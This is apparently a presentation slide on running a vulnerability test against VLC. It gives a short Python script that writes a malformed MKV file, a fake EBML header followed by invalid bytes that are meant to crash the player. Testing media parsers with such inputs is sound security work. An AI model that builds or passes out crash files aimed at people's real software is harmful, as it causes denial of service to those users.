

# 6. How to Run the Exploit Test

To simulate a vulnerability test, follow these steps:
Step 1: Create the Malicious File
Use the following Python script to generate a potentially harmful MKV file:
with open("malicious.mkv", "wb") as f: 
   f.write(b"\x1A\x45\xDF\xA3")  # EBML Header (Fake MKV) 
   f.write(b"\xFF\xFF\xFF\xFF\xFF\xFF\xFF\xFF")  # Invalid data to crash VLC 
print("Malicious MKV file created: malicious.mkv")